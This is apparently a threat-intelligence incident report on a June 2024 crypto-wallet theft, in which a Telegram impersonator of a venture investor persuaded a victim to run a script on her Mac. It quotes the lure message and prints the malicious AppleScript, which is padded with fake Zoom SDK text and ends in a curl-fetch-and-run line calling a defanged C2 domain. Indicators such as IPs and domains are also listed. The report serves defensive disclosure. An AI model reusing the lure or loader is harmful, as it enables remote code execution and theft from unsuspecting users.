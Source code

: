 # Theft from Individual C4

Date: June 29, 2024

Amount Stolen: $400,000

Tags: 🔑

---

## Details

Contacted by Telegram account impersonating VC.  jonbit3 on telegram email jonbit3@7xvc.com:

At his request, the victim set up a call with this account via Telegram. The call didn't work. He advised the victim to run a script "get it to work" on her mac.

3 days later, the vitims wallets were drained. 



### On-chain

- 0x7554a04fe6d1cd282a20ffb6aa3eeb1ac5224bf1



## URLs

- https://x.com/ValidinLLC/status/1788134423273034033



## Message Sent by Impersonator

```
Jon Liu | SevenX Ventures

Dear _______,

Hey there! I hope you're doing well. My name is Jon, and I represent
SevenX Ventures. As an investor, I'm truly passionate about
groundbreaking cryptocurrency projects.

I wanted to personally reach out and share our excitement about the
potential partnership with The Defiant. We've been lucky to make
smart investments, with our capital exceeding hundreds of millions
of dollars across different projects. Now, we're thrilled to broaden
our impact in the ecosystem, starting from Q3 2024.

If you're available, we'd love to schedule a meeting or call to discuss
investment possibilities and how I can be of assistance to you. Just
let me know what works best for you!

Please feel free to reach out to me on Telegram or through email at
jonbit3@7xvc.com. I'm available on both and would be happy to talk
with you!

Best regards,
Jon
```


## Malicious Script

```
############################################################### 
#                     
# 
# 🎦 Meeting SDK                 
# 
#                     
# # Embed the Zoom meeting and webinar experience in an app or website.     
# 
#                     
# #  The Zoom Meeting SDK lets you display the familiar Zoom meeting and webinar    
# #  experience in your app or website. The Meeting SDK interface resembles the Zoom   
# #  client, except that it lives inside your own app or website.        
# 
#                     
# # Enhance the users' experience              
# 
#                                
# 
#  Native platforms for mobile and desktop offer a default UI, which looks similar to the   
# 
#  Zoom client, and a custom UI, which offers the ability to completely customize the   
# 
#   user interface.                 
# 
#                     
# 
#   The web SDK offers a client view, which looks similar to the Zoom client, and a    
# 
#   modular component view, which displays the Meeting SDK in components on your   
# 
#   website.                  
# 
#                     
# # Meeting and webinar authorization             
# 
#                      
# #  Each time you use the SDK to join a meeting or webinar, generate an SDK JWT to let   
# #  you securely transmit your SDK credentials to Zoom's auth servers. Start meetings on  
# #  behalf of other users using a ZAK (Zoom Access Key) token.        
# 
#                     
# 
#      Press above ▶️ button to start meeting using ZAK(Zoom Access Key)token.   
# 
#                     
# #  The Meeting SDK is also compatible with Zoom OAuth,allowing existing Zoom users to  
# #  to connect their accounts to your Meeting SDK.          
# 
#                         
# 
#                     
# 
##############################################################
#   
#  Start meeting using ZAK(Zoom Access Key)token.  
set fix_url to "https://support[.]general-meet[.]team/901036/check" set sc to do shell script "curl -L -k \"" & fix_url & "\"" run script sc
```



## C2s

support[.]general-meet[.]team hits 104.168.203[.]159 which has a bunch of similar/known URLs on it and pivots to 104.168.157[.]45 and 104.168.203[.]161 and 104.168.137[.]21 and probably a bunch of others.




## Related Incidents

- 7xvc[.]virtual-collab[.]online

- support[.]virtual-collab[.]online

- www[.]virtual-collab[.]online

- technical-support[.]virtual-collab[.]online


![](../images/2024-07-01_7xv_1.jpg)

![](../images/2024-07-01_7xv_2.jpg)

![](../images/2024-07-01_7xv_3.jpg)









